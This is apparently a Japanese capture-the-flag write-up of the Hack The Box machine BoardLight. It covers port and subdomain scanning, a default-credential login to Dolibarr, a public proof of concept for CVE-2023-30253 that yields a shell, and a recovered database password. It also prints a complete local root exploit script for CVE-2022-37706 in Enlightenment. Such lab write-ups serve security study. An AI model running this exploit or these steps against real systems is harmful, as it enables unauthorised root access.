









# BoardLight



# Enumeration

## nmap

```
# Nmap 7.94SVN scan initiated Wed May 29 18:04:42 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/hatto/ctf/HTB/machines/Linux/Easy/BoardLight/results/10.10.11.11/scans/_full_tcp_nmap.txt -oX /home/hatto/ctf/HTB/machines/Linux/Easy/BoardLight/results/10.10.11.11/scans/xml/_full_tcp_nmap.xml 10.10.11.11
Warning: 10.10.11.11 giving up on port because retransmission cap hit (6).
adjust_timeouts2: packet supposedly had rtt of -54976 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -54976 microseconds.  Ignoring time.
Nmap scan report for 10.10.11.11
Host is up, received user-set (0.13s latency).
Scanned at 2024-05-29 18:04:42 JST for 955s
Not shown: 64763 closed tcp ports (reset), 770 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDH0dV4gtJNo8ixEEBDxhUId6Pc/8iNLX16+zpUCIgmxxl5TivDMLg2JvXorp4F2r8ci44CESUlnMHRSYNtlLttiIZHpTML7ktFHbNexvOAJqE1lIlQlGjWBU1hWq6Y6n1tuUANOd5U+Yc0/h53gKu5nXTQTy1c9CLbQfaYvFjnzrR3NQ6Hw7ih5u3mEjJngP+Sq+dpzUcnFe1BekvBPrxdAJwN6w+MSpGFyQSAkUthrOE4JRnpa6jSsTjXODDjioNkp2NLkKa73Yc2DHk3evNUXfa+P8oWFBk8ZXSHFyeOoNkcqkPCrkevB71NdFtn3Fd/Ar07co0ygw90Vb2q34cu1Jo/1oPV1UFsvcwaKJuxBKozH+VA0F9hyriPKjsvTRCbkFjweLxCib5phagHu6K5KEYC+VmWbCUnWyvYZauJ1/t5xQqqi9UWssRjbE1mI0Krq2Zb97qnONhzcclAPVpvEVdCCcl0rYZjQt6VI1PzHha56JepZCFCNvX3FVxYzEk=
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK7G5PgPkbp1awVqM5uOpMJ/xVrNirmwIT21bMG/+jihUY8rOXxSbidRfC9KgvSDC4flMsPZUrWziSuBDJAra5g=
|   256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILHj/lr3X40pR3k9+uYJk4oSjdULCK0DlOxbiL66ZRWg
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=5/29%OT=22%CT=1%CU=40708%PV=Y%DS=2%DC=T%G=Y%TM=6656
OS:F365%P=x86_64-pc-linux-gnu)SEQ(SP=109%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)SEQ(S
OS:P=109%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=109%GCD=3%ISR=10D%TI=Z%CI
OS:=Z%TS=A)OPS(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7
OS:%O5=M53AST11NW7%O6=M53AST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%
OS:W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S
OS:=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%R
OS:D=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=
OS:0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U
OS:1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DF
OS:I=N%T=40%CD=S)

Uptime guess: 32.209 days (since Sat Apr 27 13:19:23 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=265 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   85.95 ms 10.10.16.1
2   86.08 ms 10.10.11.11

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 29 18:20:37 2024 -- 1 IP address (1 host up) scanned in 955.35 seconds
```

## ffuf

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15949
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 113ms]
:: Progress: [114441/114441] :: Job [1/1] :: 372 req/sec :: Duration: [0:04:44] :: Errors: 0 ::
```

# Dolibarr

`crm`というサブドメインが見つかったのでアクセス



`admin:admin`を試したところログインに成功した


ログイン画面からこのWebサイトは`Dolibarr 17.0.0`というアプリケーションを使用していることが分かった。

調べてみるとDolibarr 17.0.0にはOS command injectionの脆弱性があることが分かった。
(CVE-2023-30253) https://vuldb.com/ja/?id.240011

sploitscanを使用してPoCがあるか調べてみる。

```

███████╗██████╗ ██╗      ██████╗ ██╗████████╗███████╗ ██████╗ █████╗ ███╗   ██╗
██╔════╝██╔══██╗██║     ██╔═══██╗██║╚══██╔══╝██╔════╝██╔════╝██╔══██╗████╗  ██║
███████╗██████╔╝██║     ██║   ██║██║   ██║   ███████╗██║     ███████║██╔██╗ ██║
╚════██║██╔═══╝ ██║     ██║   ██║██║   ██║   ╚════██║██║     ██╔══██║██║╚██╗██║
███████║██║     ███████╗╚██████╔╝██║   ██║   ███████║╚██████╗██║  ██║██║ ╚████║
╚══════╝╚═╝     ╚══════╝ ╚═════╝ ╚═╝   ╚═╝   ╚══════╝ ╚═════╝╚═╝  ╚═╝╚═╝  ╚═══╝
v0.7.1 / Alexander Hagenah / @xaitax / ah@primepage.de

⚠️ Config file not found, using default settings.
========================
 CVE ID: CVE-2023-30253 
========================

┌───[ 🔍 Vulnerability information ]
|
├ Published:   2023-05-29
├ Base Score:  8.8 (HIGH)
├ Vector:      CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
└ Description: Dolibarr before 17.0.1 allows remote code execution by an authenticated user via an uppercase
               manipulation: <?PHP instead of <?php in injected data.

┌───[ ♾️ Exploit Prediction Score (EPSS) ]
|
└ EPSS Score:  0.49% Probability of exploitation.

┌───[ 🛡️ CISA KEV Catalog ]
|
└ Listed:      No

┌───[ ⚛️ Nuclei Template ]
|
└ Template:    No

┌───[ 💣 GitHub Exploits / PoC ]
|
├ Name:        Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
├ Date:        2024-05-28
└ URL:         https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
|
├ Name:        CVE-2023-30253-Exploit
├ Date:        2024-05-27
└ URL:         https://github.com/04Shivam/CVE-2023-30253-Exploit
|
├ Name:        cve-2023-30253
├ Date:        2024-05-27
└ URL:         https://github.com/Rubikcuv5/cve-2023-30253

⚠️ Config file not found, using default settings.
┌───[ 💥 VulnCheck Exploits / PoC ]
|
└ ❌ API key for VulnCheck is not configured correctly.

┌───[ 👾 Exploit-DB Exploits / PoC ]
|
└ ❌ No exploit data found.

┌───[ 💥 PacketStorm Exploits ]
|
└ ❌ No exploit data found.

┌───[ ⚠️ Patching Priority Rating for CVE-2023-30253 ]
|
└ Priority:     A+

┌───[ 📚 Further References ]
|
├ URL: https://github.com/Dolibarr/dolibarr
├ URL: https://www.swascan.com/blog/
└ URL: https://www.swascan.com/security-advisory-dolibarr-17-0-0/

```


Name:      CVE-2023-30253-Exploit
Date:        2024-05-27
URL:         https://github.com/04Shivam/CVE-2023-30253-Exploit

このPoCを使用する

# Exploit

とりあえず実行してみると対象のドメインと攻撃マシンのIPとポートを入力する



`www-data`のシェルを獲得した



探索していくと`~/html/crm.board.htb/htdocs/conf/conf.php`ファイルにmysqlのパスワードを発見した。
一応sshで使用できるか試してみる。



`larissa:serverfun2$2023!!`



データベースに接続し、探索してみたところパスワードのハッシュ値を見つけたが解読はできなかった。

# Privilege Escalation

## SUID

```
-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-sr-x 1 root root 14488 Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
-rwsr-xr-x 1 root root 14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
-rwsr-xr-x 1 root root 14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
-rwsr-xr-x 1 root root 14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
-rwsr-xr-- 1 root messagebus 51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 477672 Jan  2 09:13 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root dip 395144 Jul 23  2020 /usr/sbin/pppd
-rwsr-xr-x 1 root root 44784 Feb  6 04:49 /usr/bin/newgrp
-rwsr-xr-x 1 root root 55528 Apr  9 08:34 /usr/bin/mount
-rwsr-xr-x 1 root root 166056 Apr  4  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root 67816 Apr  9 08:34 /usr/bin/su
-rwsr-xr-x 1 root root 85064 Feb  6 04:49 /usr/bin/chfn
-rwsr-xr-x 1 root root 39144 Apr  9 08:34 /usr/bin/umount
-rwsr-xr-x 1 root root 88464 Feb  6 04:49 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 68208 Feb  6 04:49 /usr/bin/passwd
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 53040 Feb  6 04:49 /usr/bin/chsh
-rwsr-xr-x 1 root root 14728 Oct 27  2023 /usr/bin/vmware-user-suid-wrapper
```

以下のバイナリにSUIDが付与されていることが分かった。

```
enlightenment_sys
enlightenment_ckpasswd
enlightenment_backlight
```

searchsploitで調べてみると Privilege escalationの脆弱性が見つかった。



どうやらEnlightenment 0.25.3 より前の Enlightenment の Enlightenment_sys は、setuid root であるため、ローカル ユーザーが権限を取得でき、システム ライブラリ関数は /dev/.. サブストリングで始まるパス名を誤って処理してしまうらしい



今回インストールされているバージョンは0.25.3より前のバージョンのため悪用できそう
以下のexploitを使用してみる

```bash
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

```

pythonでサーバーをたててそこからダウンロードして実行するだけ



rootに昇格することができた。